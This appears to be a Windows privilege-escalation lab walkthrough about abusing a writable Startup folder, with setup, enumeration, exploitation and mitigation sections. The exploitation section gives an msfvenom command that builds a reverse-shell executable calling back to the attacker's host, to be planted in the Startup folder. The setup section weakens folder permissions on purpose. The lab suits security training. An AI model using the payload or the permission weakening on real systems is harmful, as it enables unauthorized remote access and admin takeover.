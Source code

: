 # Logon Autostart Execution (Startup Folder)

## Table of Contents

- [Logon Autostart Execution (Startup Folder)](#logon-autostart-execution-startup-folder)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution via Startup Folder is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up.

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Startup Folder. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are usinfg Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Navigate via File Explorer to the directory which contains StartUp Folder using the following path:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-1](/Pictures/AutostartStartupFolder-LabSetup-Part1.png)

2) Right click on Startup folder and choose properties option:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-2](/Pictures/AutostartStartupFolder-LabSetup-Part2.png)

3) Choose the 'Security' tab and select the 'Users' group:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-3](/Pictures/AutostartStartupFolder-LabSetup-Part3.png)

4) Assign Full Control or Read and Write permissions to the Users group and then press the 'Apply' button:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-4](/Pictures/AutostartStartupFolder-LabSetup-Part4.png)

### PowerShell Script Lab Setup 

:warning: <b>If you are usinfg Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Logon Autostart Execution (Startup Folder)' scenario use the custom PowerShell script named [LogonAutostartExecutionStartupFolder.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionStartupFolder.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionStartupFolder.ps1
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Script](/Pictures/AutostartStartupFolder-LabSetup-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the Startup Folder Autoruns issue, you can use the following command from a command prompt:

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Manual-Enumeration](/Pictures/AutostartStartupFolder-Manual-Enumeration.png)

### Tool Enumeration

To perform an enumeration of the `Startup Folder Autoruns` vulnerability, you can use accesschk.exe or accesschk64.exe from Sysinternals Suite and execute the following command with appropriate arguments:

```
accesschk.exe /accepteula "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Tool-Enumeration](/Pictures/AutostartStartupFolder-Tool-Enumeration.png)

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup'.

Outcome:

![AutostartStartupFolder-Exploitation](/Pictures/AutostartStartupFolder-Exploitation.png)

4) Open a listener on your Kali machine.

5) Reboot the victim's machine and login as Adminstrator:

![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)

6) Verify the reverse shell on your Kali machine:

![Reverse-Shell-As-Admin-StartupFolderAutoRuns](/Pictures/Reverse-Shell-As-Admin-RegistryAutoRuns.png)

## Mitigation

Properly configured permissions within the Startup Folder act as a preventive measure against unauthorized modifications or executions of files within the directory. This proactive approach effectively reduces the likelihood of malicious programs or scripts launching automatically during system booting.

Moreover, to restore the default permissions of the Startup Folder, utilize the following commands with elevated privileges:

```
takeown /F "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /A /R /D Y
```

and

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /reset /T /C /Q
```

## References

- [Add an app to run automatically at startup in Windows 10 Microsoft](https://support.microsoft.com/en-us/windows/add-an-app-to-run-automatically-at-startup-in-windows-10-150da165-dcd9-7230-517b-cf3c295d89dd)
- [How To Find the Startup Folder in Windows 10 Softwarekeep](https://softwarekeep.com/help-center/how-to-find-the-startup-folder-in-windows-10)
